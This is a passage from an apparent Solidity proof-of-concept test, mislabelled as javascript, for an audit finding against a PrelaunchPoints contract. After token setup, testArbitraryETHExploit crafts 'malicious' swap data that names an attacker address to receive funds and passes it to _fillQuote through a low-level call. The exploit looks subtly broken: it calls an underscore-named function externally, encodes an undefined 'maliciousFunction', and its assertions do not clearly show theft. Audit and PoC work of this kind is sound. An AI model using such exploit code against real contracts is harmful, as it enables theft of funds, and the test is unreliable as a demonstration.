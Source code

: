 ```javascript
        mockToken.mint(address(this), 1000 * 10**18); // Mint 1000 tokens with 18 decimals
        WETH.mint(address(this), 1000 * 10**18); // Mint 1000 WETH tokens with 18 decimals

        // Add the deployed tokens to the allowedTokens array
        allowedTokens.push(address(mockToken));
        allowedTokens.push(address(WETH));

        // Deploy the PrelaunchPoints contract with the mock and allowed tokens
        prelaunchPoints = new PrelaunchPoints(
            exchangeProxy,          // Address for the exchange proxy
            address(WETH),          // Address for the WETH token
            allowedTokens           // Array of allowed tokens
        );

        // Approve the PrelaunchPoints contract to spend the tokens on behalf of this contract
        mockToken.approve(address(prelaunchPoints), 1000 * 10**18); // Allow PrelaunchPoints to spend mock tokens
        WETH.approve(address(prelaunchPoints), 1000 * 10**18); // Allow PrelaunchPoints to spend WETH tokens
    }

    function testArbitraryETHExploit() public {
        // Define the malicious swap data to exploit the vulnerability
        bytes memory swapData = abi.encodeWithSignature(
            "maliciousFunction(address,uint256)", // Function signature of the malicious function
            address(this), // Attacker's address to receive funds
            1 ether // Amount to withdraw (for demonstration purposes)
        );

        // Call the _fillQuote function with the crafted swapData
        (bool success, ) = address(prelaunchPoints).call(
            abi.encodeWithSignature(
                "_fillQuote(address,uint256,bytes)", // Function signature of _fillQuote
                address(mockToken), // Address of the token being swapped
                1000 * 10**18, // Amount of tokens to swap
                swapData // Malicious data to execute
            )
        );
        require(success, "Function call failed"); // Ensure the function call succeeded

        // Retrieve the token balances after the swap
        uint256 postSwapTokenBalance = mockToken.balanceOf(address(this)); // Balance of mock tokens after the swap
        uint256 postSwapWETHBalance = WETH.balanceOf(address(prelaunchPoints)); // Balance of WETH in PrelaunchPoints after the swap

        // Assertions to verify the results of the exploit
        assertEq(postSwapTokenBalance, 0, "Mock token balance should be zero after swap"); // Expect the token balance to be zero
        assertTrue(postSwapWETHBalance > 0, "WETH balance of PrelaunchPoints should be greater than zero after swap"); // Expect the WETH balance to have increased
    }
}


```
